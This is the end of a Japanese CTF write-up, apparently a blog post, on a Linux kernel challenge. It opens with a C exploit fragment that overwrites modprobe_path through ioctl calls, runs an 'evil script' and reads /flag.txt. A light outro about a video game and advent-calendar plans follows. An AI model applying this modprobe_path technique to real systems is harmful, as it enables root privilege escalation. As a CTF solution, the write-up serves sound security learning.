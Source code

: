 ```exploit.c
  char *uo = "/tmp/a\x00";
  ioctl(ttyfd, ((unsigned *)uo)[0], modprobe_path);
  ioctl(ttyfd, ((unsigned *)uo)[1], modprobe_path + 4);

  puts("[+] executing evil script...");
  system("/tmp/nirugiri");
  system("cat /flag.txt");

  // end of life
  puts("[ ] END of life...");
  exit(0);
}
```

# アウトロ

![](https://i.imgur.com/QfokvAe.png)

風花雪月は4周目黄色ルートが終わりました。流石に飽きてきた可能性があり、5周目を始めるかどうか迷っています。

今年のアドベントカレンダーでは、「実家までこっそりと帰省して、バレないようにピンポンダッシュして東京に戻る」か「世界一きれいに手書きの『ぬ』を書きたい」のどちらかをテーマに書こうと思っています。また700日後にお会いしましょう。


# 参考
ニルギリ
https://youtu.be/yvUvamhYPHw




